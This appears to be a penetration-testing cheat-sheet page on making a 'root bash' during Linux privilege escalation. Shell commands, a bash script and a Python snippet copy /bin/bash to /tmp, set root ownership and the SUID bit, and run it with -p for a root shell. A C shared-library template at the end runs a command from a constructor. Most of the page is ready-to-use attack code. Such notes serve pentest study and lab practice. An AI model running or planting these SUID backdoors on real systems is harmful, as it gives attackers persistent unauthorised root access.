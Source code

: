 # Root Bash

<div class="row row-cols-lg-2"><div>

A root bash is a (bash) shell that was executed as root. For instance, using an attack vector such as a SUID script, we may run:

```ps
$ cp /bin/bash /tmp/rootbash
$ chown root /tmp/rootbash
$ chmod +s /tmp/rootbash
```
</div><div>

If you are successful, you can use `-p` (and `-i`) to run it:

```ps
$ /tmp/rootbash -p
root@xxx$
```

📚 Replace `root` with another user according to the attack vector.
</div></div>

<hr class="sep-both">

<div class="row row-cols-lg-2"><div>

#### Root Bash (script)

Remember to make it executable using `chmod +x root.sh`.

```bash!
#!/usr/bin/env /bin/bash
cp /bin/bash /tmp/rootbash
chown root /tmp/rootbash
chmod +s /tmp/rootbash
```
</div><div>

#### Root Bash (Python)

The values `0,0` are the UID/GID. `0o4755` means `755` with SUID.

```py
import shutil
import os

source_path = '/bin/bash'
destination_path = '/tmp/rootbash'
shutil.copy2(source_path, destination_path)
os.chown(destination_path, 0, 0)
os.chmod(destination_path, 0o4755)
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```c
// gcc -shared -fPIC shell.c -o shell.so
#include<stdio.h>
#include<stdlib.h>

void __attribute__((constructor)) shell();

void main() {};

void shell() {
    system("id");
}
```
</div><div>
</div></div>